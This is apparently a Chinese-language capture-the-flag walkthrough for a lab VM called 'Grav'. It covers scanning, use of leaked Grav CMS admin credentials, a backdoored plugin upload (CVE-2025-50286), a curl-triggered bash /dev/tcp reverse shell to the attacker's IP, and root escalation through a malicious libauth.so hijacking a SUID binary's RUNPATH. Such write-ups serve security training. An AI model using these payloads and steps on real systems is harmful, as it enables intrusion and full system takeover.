 # **一、信息收集**

首先，在目标网段内使用`arp-scan`进行主机发现，确定目标主机的IP地址。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
Interface: eth0, type: EN10MB, MAC: 00:0c:29:57:e5:45, IPv4: 192.168.205.128
...
192.168.205.150 08:00:27:3c:ed:e0       PCS Systemtechnik GmbH
...
```

发现目标主机IP为 `192.168.205.150`。接着，使用`nmap`对该主机进行全端口扫描，以探测其开放的服务。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p0-65535 192.168.205.150
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:3C:ED:E0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
...
```

扫描结果显示，目标主机开放了22端口（SSH）和80端口（HTTP）。

# **二、漏洞扫描与利用**

访问80端口提供的Web服务，发现是一个产品介绍页面，没有太多可交互的功能。因此，使用`gobuster`进行目录扫描，以发现隐藏的路径或文件。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.150 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,zip,db,bak -t 64
...
/index.html           (Status: 200) [Size: 12350]
/grav                 (Status: 301) [Size: 317] [--> http://192.168.205.150/grav/]
...
```

扫描发现了一个重要的目录 `/grav`。访问 `http://192.168.205.150/grav/`，识别出该站点是基于 Grav CMS 构建的。

在浏览网页内容时，于`typography`页面发现了一组疑似后台凭据的字符串：`Grav Admin:Admin@123`。

![image-20250818165349274](http://7r1UMPHK.github.io/image/20250821190836487.webp)

使用用户名 `admin` 和密码 `Admin@123` 尝试登录后台地址 `http://192.168.205.150/grav/admin`，成功进入管理面板。

登录后台后，计划通过安装恶意的插件来获取服务器的Shell。这里利用一个已知的插件漏洞（CVE-2025-50286），通过后台的“直接安装”功能上传一个包含后门的插件压缩包 `grav-plugin-simple_form-develop.zip`。

> [!Tip]
>
> 那个插件利用的模板：https://github.com/binneko/CVE-2025-50286
>
> 但是他这个是使用不了的（改改能用？），建议去我们群的discord，看Sublarge发的那个
>
> ![image-20250818165621326](http://7r1UMPHK.github.io/image/20250821190812199.webp)

![image-20250818170620504](http://7r1UMPHK.github.io/image/20250821190814531.webp)

插件安装并激活后，在Kali上启动`netcat`监听8888端口。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

接着，通过`curl`发送一个精心构造的GET请求来触发插件中的漏洞，执行反向Shell命令。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl --get --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/192.168.205.128/8888 0>&1'" http://192.168.205.150/grav/
```

监听端成功接收到反弹Shell，当前用户为`www-data`。

```shell
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.150] 55952
bash: cannot set terminal process group (404): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Grav:/var/www/html/grav$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# **三、权限提升**

为了便于后续操作，首先利用`script`命令将当前的Shell升级为功能更完整的交互式TTY。

```shell
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

在服务器上进行信息收集，发现在`/home/grav`目录下存在一个提示文件`.hint`。

```shell
www-data@Grav:/home/grav$ ls -al
...
-rw-r-xr--+ 1 root root   21 Aug 16 06:56 .hint
-rw-r-x---+ 1 grav grav   44 Aug 16 07:05 user.txt
www-data@Grav:/home/grav$ cat .hint
do you know RUNPATH?
```

提示信息提到了`RUNPATH`，这是一种在ELF文件中指定的运行时库搜索路径。它具有比`LD_PRELOAD`和`LD_LIBRARY_PATH`更高的优先级，如果配置不当可能导致库劫持漏洞。

根据提示，开始寻找具有SUID权限的二进制文件，这些文件是提权的常见入口点。

```shell
www-data@Grav:/var/www/html/grav$ find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
...
-rwsr-xr-x 1 root root 17536 Aug 17 02:35 /usr/local/bin/usermgr
...
```

发现一个可疑的SUID文件 `/usr/local/bin/usermgr`。使用`readelf`检查其动态链接信息，确认其`RUNPATH`被设置为当前目录 `.`。

```shell
www-data@Grav:/home/grav$ readelf -d /usr/local/bin/usermgr | grep RUNPATH
 0x000000000000001d (RUNPATH)            Library runpath: [.]
```

接着，使用`ldd`查看该程序依赖的动态链接库。

```shell
www-data@Grav:/home/grav$ ldd /usr/local/bin/usermgr
        linux-vdso.so.1 (0x00007ffdbeac0000)
        libauth.so => /lib/libauth.so (0x00007fa27b1ff000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa27b02b000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa27b214000)
```

`usermgr`依赖一个名为`libauth.so`的库。由于`RUNPATH`被设置为 `.`，这意味着当执行`/usr/local/bin/usermgr`时，系统会首先在当前工作目录下查找`libauth.so`。这为我们实施库劫持提供了条件。

切换到具有写权限的目录`/tmp`，并编写一个恶意的C源文件`a.c`。该文件利用GCC的`__attribute__((constructor))`特性，在库被加载时自动执行代码，以root权限生成一个bash shell。

```c
// a.c
#include <unistd.h>
#include <stdlib.h>

void __attribute__((constructor)) run_on_load() {
    setuid(0);
    setgid(0);
    char *args[] = {"/bin/bash", NULL};
    execve("/bin/bash", args, NULL);
}
```

将该C文件编译为名为`libauth.so`的共享库。

```shell
www-data@Grav:/tmp$ gcc -shared -fPIC -o libauth.so a.c
```

最后，在`/tmp`目录下执行`/usr/local/bin/usermgr`。由于`RUNPATH`的设置，程序会加载我们放在`/tmp`下的恶意`libauth.so`，从而执行其中的提权代码。

```shell
www-data@Grav:/tmp$ /usr/local/bin/usermgr
root@Grav:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

成功获取root权限。现在可以读取所有的flag文件。

```shell
root@Grav:/tmp# cat /root/root.txt /home/grav/user.txt
flag{root-67f2a835697e7c9c2c5146c76eca6038}
flag{user-ab72ef6c613b6a51db91eedd34271143}
```